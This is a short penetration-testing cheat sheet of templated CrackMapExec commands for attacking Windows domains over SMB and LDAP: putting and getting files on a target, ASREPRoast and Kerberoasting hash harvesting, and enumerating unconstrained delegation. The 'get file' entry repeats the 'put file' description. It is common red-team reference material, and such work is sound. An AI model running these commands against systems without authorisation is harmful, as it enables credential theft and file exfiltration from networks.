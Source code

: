 ## cme - put file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
cme smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## cme - get file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
cme smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## cme - ASREPRoast enum without authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - ASREPRoast enum with authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - Kerberoasting
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## cme - Unconstrained delegation
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```
